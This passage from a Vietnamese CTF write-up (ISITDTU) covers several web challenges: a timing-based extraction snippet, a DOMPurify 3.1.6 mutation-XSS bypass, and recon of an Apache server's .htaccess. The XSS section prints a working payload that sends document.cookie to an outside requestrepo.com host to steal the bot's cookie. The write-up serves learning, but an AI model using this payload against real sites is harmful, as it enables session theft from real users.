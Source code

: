 ```

        if (end_time - start_time) >= 5:
            payload += char
            print("flag is: " + payload)
            break

```

flag: `ISITDTU{N0W_y0u_kn0w_h0w_T0_m4k3_1t_r3Fl3ct3d!!}`

## web/ X ÉC ÉC

Trang web sử dụng expressjs và module npm `dompurify": "^3.1.6` để filter xss -> bypass xss để steal bot cookie

Có chức năng ghi một note và hiển thị note sau khi được server filter xss.

payload: 
````
<svg><a><foreignobject><a><table><a></table><style><!--</style></svg><a id="-><img src onerror=fetch('http://00br69e7.requestrepo.com/?a='+document.cookie)>">.
````

flag: `ISITDTU{d364c13b91d3bd0ecb3ffed49b229fc06b1208e8}`

## web/S1mple

### recon

Đối với bài này source sẽ được pull từ dockerhub xuống `FROM servertest2008/simpleserver:1.4` ta thấy có 2 repo khá xuống nhau từ 2 tháng trước và 2 ngày trước đó.

Sau khi build docker đi vào server ta thấy ngay server sử dụng `Apache/2.4.18` + `mod_dumpio.so`

Module `mod_dumpio.so` sẽ bật config: `LogLevel dumpio:trace7 DumpIOInput On DumpIOOutput On` đẻ ghi log.

Trang web có hiển thị 3 href là 3 trang chỉ có only text nên không có gì có thể khai thác -> ta sẽ đi vào server

tại /var/www/html:

![image](https://hackmd.io/_uploads/ryp2xoigye.png)

ngoài file index.html thì còn có 2 pages như ta thấy ở trên, ngoài ra còn file `.`htaccess`

```
<Files "admin.php">
    AuthType Basic 
    AuthName "Admin"
    AuthUserFile "/.htpasswd"
    Require valid-user
</Files>

<Files "adminer.php">
    AuthType Basic 
    AuthName "Admin"
    AuthUserFile "/.htpasswd"
    Require valid-user
</Files>

<Files "xmlrpc.php">
    AuthType Basic 
    AuthName "Admin"
    AuthUserFile "/.htpasswd"
    Require valid-user
</Files>
```
